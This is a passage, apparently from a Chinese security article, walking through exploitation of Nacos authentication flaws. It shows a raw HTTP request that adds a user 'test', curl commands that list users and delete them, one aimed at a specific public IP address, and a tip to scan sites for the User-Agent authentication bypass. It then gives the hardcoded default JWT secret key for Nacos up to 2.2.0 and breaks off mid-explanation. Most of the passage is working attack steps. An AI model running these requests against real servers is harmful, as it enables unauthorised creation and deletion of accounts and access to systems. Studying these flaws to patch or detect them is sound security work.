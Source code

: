 Upgrade-Insecure-Requests: 1  
  
If-Modified-Since: Wed, 28 Jul 2021 11:28:45 GMT  
  
Priority: u=0, i  
  
Content-Type: application/x-www-form-urlencoded  
  
Content-Length: 30  
  
username=test&password=test123  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaKHIdibthRkQwHic6jbXLrxEPHGupewVYZyBk533sE9dU6qGwMbFdiamSw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
查看用户是否添加成功:  
  
/nacos/v1/auth/search?username=test  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia51fbdmibia0TfYiaVrdHafNm4EKroNib2DzoHJ78RIdicicf0MpPn3V1nFqg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
curl 'http://IP/v1/auth/search?username=test'  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMIHn9rCNdEqIiaibP1I6iarKR7mnkTT7eS0FPgs4NXaLPfZLpicAqho9JQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiapLXfA7XTfTUQE6UDDo7GbXDYJccE2bknnFNicJdXKib4oHrbvQOV8b2A/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
删除用户  
  
curl -X DELETE "http://47.83.174.204:8848/nacos/v1/auth/users?username=test"  
  
或者访问 /nacos/v1/auth/users?username=test，将请求方法修改为DELETE即可删除用户test  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia2j2hYLqGcd3rWVqRHpicQ5LNwKiaEPQ2xYBiaQTkWL0gvCiab8zPl0OwkQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
或者使用工具直接进行用户的添加  
  
先将有漏洞的站点扫描一遍选择ua权限绕过漏洞进行添加  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaxJAvibqW2vaABZhOXRB49mycibd0FWrfEc6bCic0bYcmibSFADLd4cgvkw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaPz96QcupPQT0gHL9AKLQiaepyoQmkagfib2yWTDpshgFja26oAURf4XA/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 5.默认jwt密钥-未授权访问  
  
开启了nacos.core.auth.enabled 的情况下，如果未修改默认nacos.core.auth.default.token.secret.key的值（在Nacos<=2.2.0版本中，该值为默认值），则可以通过accessToken值来绕过权限。  
  
nacos.core.auth.default.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789 # =后边的是默认的硬编码  
  
**影响版本**  
  
0.1.0<=nacos<=2.2.0  
#### 漏洞原理  
  
输入正确的账号密码，则后端会返回对应该用户的加密accessToken。  
  
请求包  
  